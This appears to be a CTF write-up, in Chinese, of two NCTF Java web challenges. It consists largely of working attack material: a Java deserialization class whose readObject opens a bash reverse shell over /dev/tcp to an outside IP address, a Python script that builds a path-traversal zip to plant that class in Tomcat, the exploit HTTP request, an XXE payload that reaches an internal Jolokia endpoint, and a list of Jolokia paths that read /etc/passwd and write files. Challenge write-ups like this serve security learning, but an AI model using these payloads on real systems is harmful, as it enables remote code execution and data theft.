 # NCTF_JAVA

>有时间做了一下NCTF的java题，感觉不错记录一下

## Ezjava
考察点：解压路径穿越写文件rce

>tomcat 路径 /usr/local/tomcat 上传的路径 /tmp/fileUpload/

通过写evil.class 然后重写readobject去rce

```
 /tmp/fileUpload/../../../usr/local/tomcat/webapps/html/WEB-INF/classes/com/x1c/nctf/controller/evil.class
```
```
../../usr/local/tomcat/webapps/html/WEB-INF/classes/com/x1c/nctf/controller/evil.class
```

```java
package com.x1c.nctf.controller;

import java.io.*;

public class evil implements Serializable {
    public evil() {    }
    private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException, InterruptedException {
        try{
            Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","exec 5<>/dev/tcp/101.35.195.134/4444;cat <&5 | while read line; do $line 2>&5 >&5; done"});
        }catch (IOException e){
            try{
                Runtime.getRuntime().exec(new String[]{"cmd", "/c", "calc"});
            }catch (IOException ee){
            }
        }
    }

    public static void main(String[] args) throws Exception {
        evil evil = new evil();
        writeObjectToFile(evil,"1.txt");

    }
    public static void writeObjectToFile(Object obj,String fileName) throws Exception {
        ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream(fileName));
        outputStream.writeObject(obj);
        outputStream.close();
    }
}

```
压缩包制作
```python
# -*- coding: utf-8 -*
# /usr/bin/python3
# @Author:Firebasky
import zipfile
file_name="evil.class"
f = zipfile.ZipFile('exp.zip','w',zipfile.ZIP_STORED)
f.write(file_name,'../../usr/local/tomcat/webapps/html/WEB-INF/classes/com/x1c/nctf/controller/evil.class')
f.close()
```

```
GET /html/backdoor?cmd=rO0ABXNyABxjb20ueDFjLm5jdGYuY29udHJvbGxlci5ldmlsfJBBr%2bZElI4CAAB4cA%3d%3d HTTP/1.1
Host: 129.211.173.64:8081
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://129.211.173.64:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://129.211.173.64:8081/html/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

## api_system

>这个题，刚刚好拿来学习api,之前学习过springboot的利用思路。并且看到了知识星球的api学习。
>自己一直卡在了绕过/actuator/jolokia/权限的问题，结果通过xxe去绕过。。。

通过[APIKit工具](https://github.com/API-Security/APIKit)去扫描,存在/user/list接口测试发现存在xxe，之后就通过xxe打内网/actuator/jolokia/去绕过
tips：内网端口通过/env去查看

之后就通过/actuator/jolokia/接口的读文件去读flag.

```xml
<?xml version = "1.0"?>
<!DOCTYPE ANY [
    <!ENTITY f SYSTEM "http://127.0.0.1:8080/actuator/jolokia/exec/com.sun.management:type=DiagnosticCommand/compilerDirectivesAdd/!/flag">
]>
<id>&f;</id>
```


[jolokia-exploitation-toolkit](https://github.com/laluka/jolokia-exploitation-toolkit)

```
jolokia/
jolokia/list
jolokia?p=/read/jboss.jmx:alias=jmx%2Frmi%2FRMIAdaptor/State
jolokia/exec/java.lang:type=Memory/gc
jolokia/list?maxObjects=100
jolokia/read/java.lang:type=*/HeapMemoryUsage
jolokia/read/java.lang:type=Memory/HeapMemoryUsage/used
jolokia/search/*:j2eeType=J2EEServer,*
jolokia/write/java.lang:type=Memory/Verbose/true
jolokia/exec/com.sun.management:type=DiagnosticCommand/help/*
jolokia/exec/com.sun.management:type=DiagnosticCommand/vmSystemProperties
jolokia/exec/com.sun.management:type=DiagnosticCommand/jfrStart/filename=!/tmp!/foo
jolokia/exec/com.sun.management:type=DiagnosticCommand/compilerDirectivesAdd/!/etc!/passwd
jolokia/exec/com.sun.management:type=DiagnosticCommand/jvmtiAgentLoad/!/etc!/passwd
jolokia/exec/com.sun.management:type=DiagnosticCommand/vmLog/output=!/tmp!/pwned
jolokia/exec/com.sun.management:type=DiagnosticCommand/vmLog/disable
```


